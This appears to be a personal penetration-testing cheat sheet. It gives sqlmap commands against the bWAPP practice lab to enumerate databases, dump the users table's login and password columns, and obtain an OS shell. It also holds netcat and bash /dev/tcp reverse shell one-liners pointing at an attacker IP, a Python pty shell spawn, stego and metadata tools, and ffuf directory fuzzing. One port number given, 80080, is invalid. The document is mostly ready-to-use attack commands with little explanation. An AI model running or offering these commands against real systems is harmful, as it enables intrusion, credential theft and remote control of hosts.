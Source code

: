 # Infosec
My InfoSec Cheat sheet and stuff



# scan local network

arp-scan --local

# sqlmap 

------


POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

# nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"


---
# photos and metadata

exif 

exiftool 

steghide info

binwalk - tool for searching binary images for embedded files and executable code



---
# SPAWN PY SHELL

import pty
pty.spawn("/bin/sh")


-
# start quick python http server 
python3 -m http.server 80080

# fuff coz i hate gobuster 
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.142.184/FUZZ -fs 42 -c -v 
